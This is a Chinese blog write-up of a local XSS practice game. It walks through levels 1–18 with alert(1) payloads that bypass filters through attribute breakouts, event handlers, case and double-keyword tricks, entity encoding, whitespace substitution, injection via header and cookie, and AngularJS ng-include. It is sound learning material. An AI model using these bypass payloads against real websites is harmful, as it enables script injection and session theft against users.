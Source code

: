 <!--markdown--># xss小游戏
前段时间哈士奇师傅推荐的的一个xss小游戏源码，中间断断续续做了一些，也算是进行一个小总结吧。（JavaScript需要开一个坑了）反正我觉得xss也算一种注入吧。  
链接：[http://pan.baidu.com/s/1gfIGcgz](http://pan.baidu.com/s/1gfIGcgz) 密码：cynn
### 搞搞搞 
开始搞的时候怎么都弹不出来，F12之后发现是浏览器的xss过滤脚本，火狐，谷歌，ie，都有。调整下安全等级正式开始。  
1.最简单的  
![](http://i.imgur.com/UqUI0MY.png)   

![](http://i.imgur.com/ymx40gX.png)  
问题在参数test处，他将参数直接输出在页面中  
直接构造
	
	name=<script>alert(1)</script>  
2.输出点  
和第一题一样页面有post数据的回显，尝试一波

	<script>alert(1)</script>  
没有弹窗，查看源

	<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>
尖括号被过滤了，试试编码处理u003c和u003e，依然为成功，然后源里面可以发现下面表单里面有问题

	<input name=keyword  value="u003cscript>alert(1)</script>">
这里可以构造
	
	"><script>alert(1)</script>  
弹窗成功  
3.事件  
<input name=keyword  value='&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;'>  
同样之前的操作，可以看到这里表单里面也编码转义了然后是单引号，这里可以用事件来x  
test' oninput=javascript:alert(1)//    
可以执行 js 的on事件

> onload 当加载   
> onunload 当退出  
> onchange 当输入改变时  
> onsubmit 当提交  
> onreset 当重置按钮被点击  
>onselect 当文本被选定  
>onblur 当元素失去焦点  
>onfocus 当元素获得焦点  
>onabort 当图像加载被中断  
>onkeydown 当某个键盘的键被按下  
>onkeypress 当某个键盘的键被按下或按住   
>onkeyup 当某个键盘的键被松开  
>onclick 当鼠标点击某个对象  
>ondbclick 当鼠标双击某个对象  
>onmouseover 当鼠标覆盖  
>onmousemove 当鼠标移动  
>onmouseout 当鼠标移开  
>onmouseup 当鼠标松开  
>onforminput =oninput 当输入文本  
>onformchange =onchange 当改变文本  
>ondrag 当事件在元素或者选取的文本被拖动时触发  
>ondrop 当事件在可拖动元素或选取的文本放置在目标区域时触发  

弹窗成功  
4.3题的基础上用双引号（好瓜皮）  
5.filter是on->o_n,script->scr_ipt  
也就是说用不了事件，就可以想想其他标签了，我们这里用个超链接吧

	<input name=keyword  value="<scr_ipt>">
这里的还是双引号不多说  
	
	<input name=keyword  value=""> <a href="javascript:%61lert(1)">click me</a> //">
点击clike me 弹窗  
6.filter:href->fr_ef,on->o_n,script->scr_ipt  
可以大小写绕过，Unicode编码没过到  

	"><scripT>alert(1)</script>
7.过滤双写，这个在sql里面也有用的，主要是过滤方法的问题  
双写关键字就可以了比如scripscriptt  
8.过滤了script，编码绕过  
javas&#99;ript:alert(1)  
9.白名单检测，必须包含http://  
这个题我看了两种答案，一种是注释，可是没试成功  
哈士奇师傅的方法很imba  
javasc&#114;ipt:alert('http://')  
这可能就是脑洞吧  
10.查看源码有几个隐藏参数属性  
从这几个点可以像头几道题那样做就可以了 
url=&t_sort=" type="text" onclick="alert(1)   
11.同样是10题只是参数位置变成了referer抓包改  
url=&t_sort=" type="text" onclick="alert(1)  
12.查看源码  

	<input name="t_ua"  value="Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko" type="hidden">
ua参数注入xss，需要抓包，然后payload如10题。  
13.cookie注入xss  
抓包改cookie  
14.这个题EXIF  
就是上传图片查看信息，可以控制输出的地方很多  
15.这个题AngularJS  
我也不是很懂这个，只知道  
ng-include 指令用于包含外部的 HTML 文件  
包含的内容将作为指定元素的子节点  
ng-include 属性的值可以是一个表达式，返回一个文件名  
默认情况下，包含的文件需要包含在同一个域名下  
大概看下payload就能懂一点了  

    /level15.php?src='level1.php?name=test<img src=1 onerror=alert(1)>'
16.过滤了空格，script，/，可以用on事件  
用%0a等代替空格，和sql注入一样
<img%0Dsrc=1%0Donerror=alert(1)>  
17.http://127.0.0.1/xss/level17.php?arg01=a&arg02=b
查找输出点

	<embed src=xsf01.swf?a=b onmouseover=alert(1) width=100% heigth=100%><h2 align=center> 
这个输出点就是这个a=b，排除过滤之后可以这样构造，用on事件  
18.哇，这个题和17题有什么不同？  
19和20是flashxss，还没有研究过，做不下去了。  
### 总结  
这题蛮有意思的，对xss入门很友好，然后以后就需要看看javascript的弹cookie那些脚本了，感觉xss不弹cookie还是废物一个。  
写下这篇文章，也借鉴学习也多方的文章。  
[http://139.129.31.35/index.php/archives/494/](http://139.129.31.35/index.php/archives/494/)  
我大哥的文章，记录得很齐全，后面应该会用到的。

